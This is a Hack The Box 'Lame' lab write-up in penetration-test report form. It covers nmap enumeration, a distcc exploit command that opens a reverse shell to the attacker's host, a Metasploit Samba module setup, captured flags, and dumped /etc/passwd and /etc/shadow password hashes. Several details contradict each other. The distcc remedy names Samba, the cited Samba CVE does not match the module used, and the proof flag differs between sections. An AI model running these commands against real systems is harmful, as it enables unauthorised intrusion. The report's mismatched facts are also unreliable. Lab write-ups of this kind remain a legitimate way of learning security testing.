



# Hack The Box: Lame Report

# Methodologies

I utilized a widely adopted approach to performing penetration testing that is effective in testing how well the Lame machine is secured.
Below is a breakout of how I was able to identify and exploit the variety of systems and includes all individual vulnerabilities found.

## Information Gathering

The information gathering portion of a penetration test focuses on identifying the scope of the penetration test.
During this penetration test, I was tasked with exploiting the Lame machine.

The specific IP address was:

- 10.10.10.3

## Penetration

The penetration testing portions of the assessment focus heavily on gaining access to a variety of systems.
During this penetration test, I was able to successfully gain access to the Lame machine.

### System IP: 10.10.10.3

#### Service Enumeration

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.
Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.

Server IP Address | Ports Open
------------------|----------------------------------------
10.10.10.3      | **TCP**: 21,22,139,445,3632

**Nmap Scan Results:**

Command to run:

```bash
nmap -vvv -Pn -p 21,22,139,445,3632 -sC -sV -oN /HTB-boxes/lame/recon/nmap_all_tcp.md 10.10.10.3
```

Output:

```bash

...

139/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack Samba smbd 3.0.20-Debian (workgroup: 

...

| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr

...


```

Command to run:

```bash
nmap -vvv -Pn -p 21,22,139,445,3632 --script vuln -oN /HTB-boxes/lame/recon/nmap_all_vuln.md 
```

Output:

```bash

...

3632/tcp open  distccd      syn-ack
| distcc-cve2004-2687: 
|   VULNERABLE:
|   distcc Daemon Command Execution
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2004-2687
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       Allows executing of arbitrary commands on systems running distccd 3.1 and
|       earlier. The vulnerability is the consequence of weak service configuration.
|       
|     Disclosure date: 2002-02-01
|     Extra information:
|       
|     uid=1(daemon) gid=1(daemon) groups=1(daemon)
|   
|     References:
|       https://nvd.nist.gov/vuln/detail/CVE-2004-2687
|       https://distcc.github.io/security.html
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687

...

```

#### Initial Access

**Vulnerability Exploited:** 

Arbitrary Code Execution

**Vulnerability Explanation:**

distcc 2.x, as used in XCode 1.5 and others, when not configured to restrict access to the server port, allows remote attackers to execute arbitrary commands via compilation jobs, which are executed by the server without authorization checks. 

Reference: *https://www.cvedetails.com/cve/CVE-2004-2687/*

**Vulnerability Fix:**

Update to the latest samba version.

**Severity:** Critical

**Exploit Code:**

Reference: *https://github.com/k4miyo/CVE-2004-2687/blob/k4miyo/CVE-2004-2687.py*

Changes to the exploit code were not made. 

Run the following command (change lport and lhost as needed):

```bash
python3 CVE-2004-2687.py --rhost 10.10.10.3 --rport 3632 --lhost 10.10.14.12 --lport 4321
```

Output:



#### Privilege Escalation

**Vulnerability Exploited:** 

Multiple Heap Overflows Allow Remote Code Execution

**Vulnerability Explanation:**

Multiple heap-based buffer overflows in the NDR parsing in smbd in Samba 3.0.0 through 3.0.25rc3 allow remote attackers to execute arbitrary code via crafted MS-RPC requests involving (1) DFSEnum (netdfs_io_dfs_EnumInfo_d), (2) RFNPCNEX (smb_io_notify_option_type_data), (3) LsarAddPrivilegesToAccount (lsa_io_privilege_set), (4) NetSetFileSecurity (sec_io_acl), or (5) LsarLookupSids/LsarLookupSids2 (lsa_io_trans_names). 

Reference: *https://www.cvedetails.com/cve/CVE-2007-2446/*

**Vulnerability Fix:**

A patch against Samba 3.0.24 has been posted at *http://www.samba.org/samba/security/*

Reference: *https://www.samba.org/samba/security/CVE-2007-2446.html*

**Severity:** Critical

**Exploit Code:**

Reference: *https://www.exploit-db.com/exploits/16859*
EDB-ID: 16859
CVE-2007-2446 
 
 
 Searching for exploit code:
 
 ```bash
 searchsploit samba 3.0
 ```
 
 Output:
 
 ```bash
 Samba 3.0.24 (Linux) - 'lsa_io_trans_names'  | linux/remote/16859.rb
 ```
 
 
  Metasploit Console Setup:
  
 
 ```txt
 search samba 3.0
 use exploit/multi/samba/usermap_script
 set RHOSTS 10.10.10.3
 ```
 
 

**Local.txt Proof Screenshot**



**Local.txt Contents**

```txt
6b703f8f851ed42c0e37aafdadba7854
```

**Proof Screenshot Here:**



**Proof.txt Contents:**
```txt
6930678d63aafcfaf5ba62d0a8720308
```


## Maintaining Access

Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable.
The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again.
Many exploits may only be exploitable once and we may never be able to get back into a system after we have already performed the exploit.

## House Cleaning

The house cleaning portions of the assessment ensures that remnants of the penetration test are removed.
Often fragments of tools or user accounts are left on an organization's computer which can cause security issues down the road.
Ensuring that we are meticulous and no remnants of our penetration test are left over is important.

After collecting trophies from the Lame machine was completed, I removed all user accounts, passwords, and malicious codes used during the penetration test.
Hack the box should not have to remove any user accounts or services from the system.

# Appendix - Additional Items

## Appendix - Proof and Local Contents:

IP (Hostname) | Local.txt Contents | Proof.txt Contents
--------------|--------------------|-------------------
10.10.10.3   | 6930678d63aafcfaf5ba62d0a8720308  | 23b1ce7d0f61a6d37f4185da0fa45920


## Appendix - /etc/passwd contents

```txt
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
bind:x:105:113::/var/cache/bind:/bin/false
postfix:x:106:115::/var/spool/postfix:/bin/false
ftp:x:107:65534::/home/ftp:/bin/false
postgres:x:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
mysql:x:109:118:MySQL Server,,,:/var/lib/mysql:/bin/false
tomcat55:x:110:65534::/usr/share/tomcat5.5:/bin/false
distccd:x:111:65534::/:/bin/false
service:x:1002:1002:,,,:/home/service:/bin/bash
telnetd:x:112:120::/nonexistent:/bin/false
proftpd:x:113:65534::/var/run/proftpd:/bin/false
statd:x:114:65534::/var/lib/nfs:/bin/false
snmp:x:115:65534::/var/lib/snmp:/bin/false
makis:x:1003:1003::/home/makis:/bin/sh
```

## Appendix - /etc/shadow contents

```txt
root:$1$p/d3CvVJ$4HDjev4SJFo7VMwL2Zg6P0:17239:0:99999:7:::
daemon:*:14684:0:99999:7:::
bin:*:14684:0:99999:7:::
sys:$1$NsRwcGHl$euHtoVjd59CxMcIasiTw/.:17239:0:99999:7:::
sync:*:14684:0:99999:7:::
games:*:14684:0:99999:7:::
man:*:14684:0:99999:7:::
lp:*:14684:0:99999:7:::
mail:*:14684:0:99999:7:::
news:*:14684:0:99999:7:::
uucp:*:14684:0:99999:7:::
proxy:*:14684:0:99999:7:::
www-data:*:14684:0:99999:7:::
backup:*:14684:0:99999:7:::
list:*:14684:0:99999:7:::
irc:*:14684:0:99999:7:::
gnats:*:14684:0:99999:7:::
nobody:*:14684:0:99999:7:::
libuuid:!:14684:0:99999:7:::
dhcp:*:14684:0:99999:7:::
syslog:*:14684:0:99999:7:::
klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:14742:0:99999:7:::
sshd:*:14684:0:99999:7:::
bind:*:14685:0:99999:7:::
postfix:*:14685:0:99999:7:::
ftp:*:14685:0:99999:7:::
postgres:$1$dwLrUikz$LRJRShCPfPyYb3r6pinyM.:17239:0:99999:7:::
mysql:!:14685:0:99999:7:::
tomcat55:*:14691:0:99999:7:::
distccd:*:14698:0:99999:7:::
service:$1$cwdqim5m$bw71JTFHNWLjDTmYTNN9j/:17239:0:99999:7:::
telnetd:*:14715:0:99999:7:::
proftpd:!:14727:0:99999:7:::
statd:*:15474:0:99999:7:::
snmp:*:15480:0:99999:7:::
makis:$1$Yp7BAV10$7yHWur1KMMwK5b8KRZ2yK.:17239:0:99999:7:::
```